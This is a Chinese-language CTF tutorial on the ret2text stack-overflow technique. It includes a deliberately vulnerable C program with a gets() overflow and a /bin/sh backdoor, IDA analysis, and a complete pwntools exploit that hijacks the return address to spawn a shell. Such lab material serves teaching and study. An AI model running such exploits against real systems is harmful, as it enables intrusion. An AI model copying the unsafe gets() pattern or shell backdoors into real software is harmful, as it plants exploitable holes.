


# 基本ROP：ret2text

> 参考资料
>
> [CTF-wiki:基本ROP](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/)
>
> [语雀：PWN入门（1-3-1）-基本ROP-介绍](PWN入门（1-3-1）-基本ROP-介绍)
>
> 《深入理解计算机系统》

## 0x01 什么是ROP

ROP，全称Return Oriented Programming，中文翻译为返回导向编程，其基本思想为在缓冲区溢出的基础上，利用程序中已经有的小片段（gadgets）来改变某些寄存器的值，从而控制程序的执行流。

`gadgets`通常是以 `ret` 结尾的指令序列， 通过这样的指令序列，我们可以多次劫持程序的控制流，从而运行特定的指令序列，以完成攻击目的。

使用ROP攻击一般满足如下条件：

- 程序存在缓冲区溢出漏洞（不局限于栈溢出），且允许我们更改返回地址
- 程序中可以找到满足条件的 gadgets 片段以及相应的 gadgets 地址

## 0x02 ret2text

ret2text可以算是`ret to text`的简写，其中的`text`代表的是`.text段`，其中`.text段`是存放程序中所有可执行代码的地方。简单来说，ret2text就是让程序中某个有漏洞的函数，在返回时，eip寄存器不会返回其调用者函数的代码上，而是跳转到 .text 段上的 gadgets 上。并且，利用 gadgets 中的`ret`指令，我们甚至可以多跳转几次，让程序执行好几段不相邻的代码。

下面是一个简单的 ret2text的实例

```c
#include <stdio.h>

void init() {

  /*初始化标准输入输出流缓冲区，一般的pwn都会有这个函数*/
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
}

int backdoor() { system("/bin/sh"); }

int vuln() {
  char buf[16];

  puts("input something:");
  gets(buf);
}

int main() {
  init();
  vuln();

  return 0;
}

```

使用如下命令编译

```bash
gcc -std=c90 -g -m32 -fno-stack-protector -no-pie -z execstack -z norelro ret2text.c -o ret2text
```

下面我们按照一般打题的流程来走一遍

先来查一下程序的保护

```bash
    Arch:       i386-32-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
    Debuginfo:  Yes
```

保护全关，并且是32位程序，虽然有源码，但是我们依旧要使用IDA，锻炼自己的能力。

我们直接来到`vuln`函数

```c
char *vuln()
{
  char buf[16]; // [esp+0h] [ebp-18h] BYREF

  puts("input something:");
  return gets(buf);
}
```

可以看到,这里直接是用了 gets 函数，没有检查输入大小，所以有栈溢出漏洞，在IDA的反编译界面，我们双击`buf`变量，可以看到 vuln 函数的栈帧分布



可以看到，buf 在栈中的相对地址为 **ebp-0x18**，我们知道，ret2text需要控制某个函数返回地址，让其变成.text段上的某个 gadgets 的地址。在这个程序中，gets 函数会一直向 vuln 的栈中填充我们输入的数据，直到收到我们输入的 `\n`，那我们是不是可以构造一个特殊的输入，先让它填充 vuln 的栈帧空间 + 返回地址，然后在最后加上 gadgets 的地址，这样我们就可以覆盖掉返回地址，变成 gadgets 的地址

思路有了，我们开始找 gadgets ，一般来说，我们会从两个地方找 gadgets，一个是IDA的 Functions 窗口



你可以找到一些有着特殊命名的函数，比如这里的 `backdoor` 函数。

另一个就是使用 Shitf + f12 打开 IDA 的 String 窗口，按 Ctrl + F 搜索 “/bin/sh” 这种方法更加泛用，毕竟不是每个这种题目都会有一个叫 backdoor 的函数。


双击 /bin/sh 字符串，然后 IDA 会跳转到 IDA view-A 窗口，同时高亮在 .rodata段中的 /bin/sh 字符串，然后按 Ctrl + X 显示交叉引用，它就会跳出来另一个窗口，里面会显示使用这个字符串的，双击该函数，你就会跳转到该函数的汇编代码上。

两种方式，都可以找到 backdoor 函数。

现在，该有的信息都有了，我们就可以来编写漏洞利用脚本了

```python
#!/bin/python

from pwn import *

context(arch = 'i386', os = 'linux')
context.log_level = 'debug'
io = process("./ret2text")
```

首先，是每个脚本都会有的“八股文”，目的是确定上下文，这里就不展开讲了，这不是重点，唯一需要注意的是，如果是在本地 pwn，需要写`io = process("程序路径")`， 脚本会自动打开程序并按照编写的逻辑去与程序交互，如果是pwn在远程服务器上程序，需要换成`io = remote("ip或者域名", 端口)`;

下面，写一个变量，就叫backdoor，用来存放 gadgets 也就是 backdoor 函数的地址，但是，我们需要注意的是，我们不能直接使用 backdoor 的地址,即`0x080491F0`

```asm
.text:080491F0                 push    ebp
.text:080491F1                 mov     ebp, esp
.text:080491F3                 push    ebx
.text:080491F4                 sub     esp, 4
.text:080491F7                 call    __x86_get_pc_thunk_ax
.text:080491FC                 add     eax, (offset _GLOBAL_OFFSET_TABLE_ - $)
.text:08049201                 sub     esp, 0Ch
.text:08049204                 lea     edx, (aBinSh - 804B2B8h)[eax] ; "/bin/sh"
.text:0804920A                 push    edx             ; command
.text:0804920B                 mov     ebx, eax
.text:0804920D                 call    _system
.text:08049212                 add     esp, 10h
.text:08049215                 nop
.text:08049216                 mov     ebx, [ebp+var_4]
.text:08049219                 leave
.text:0804921A                 retn
```

具体原因我目前也没有太搞明白，但是就做题经验而言，使用`0x080491F1`作为返回地址，即后门函数的首地址 +1，成功率远远大于直接使用后门首地址。

接下我们就来构造payload

```python
backdoor = 0x080491F1
payload = b'a' * (0x18 + 0x4) + p32(backdoor)
```

其中 `b'a' * （0x18 + 0x4)`，的作用是向栈中填充垃圾数据，因为 gets 先栈中写入数据是从低地址写到高地址的，而返回地址位于高地址，比栈底还要高一个机器字长，要想覆盖掉返回地址，我们需要将他前面的空间全部填满才行。0x18是目标缓冲区，这里是 buf 的首地址与栈底之间的距离，而 0x4 是是栈底的大小，所以我们需要覆盖(0x18 + 0x4)的大小。

而`p32`的作用时，将十六进制整数，按照小端序的打包成四字节。

> 小端序：一个多字节数据在内存中存放时，低位字节放在低位
> 比如说我这里有一个十六整数：0x12345678,其中，12为高位，78为低位，那么按照小端序的存放方式，0x12345678在内存中的实际储存方式为
>
> ```text
> |  addr  |  value  |
> | 0x1001 |  0x78   |
> | 0x1002 |  0x56   |
> | 0x1003 |  0x34   |
> | 0x1004 |  0x12   |
> ```
>
> 一般来说，向内存中写入数据都是从低地址写向高地址，以写入的视角看，这个十六进制数就是倒着的

最后，我们就可以写出完成的exp：

```python
#!/bin/python

from pwn import *

context(arch = 'i386', os = 'linux')
context.log_level = 'debug'
io = process("./ret2text")

backdoor = 0x080491F1
payload = b'a' * (0x18 + 0x4) + p32(backdoor)

io.recvuntil("input something:")
io.sendline(payload)

io.interactive()
```
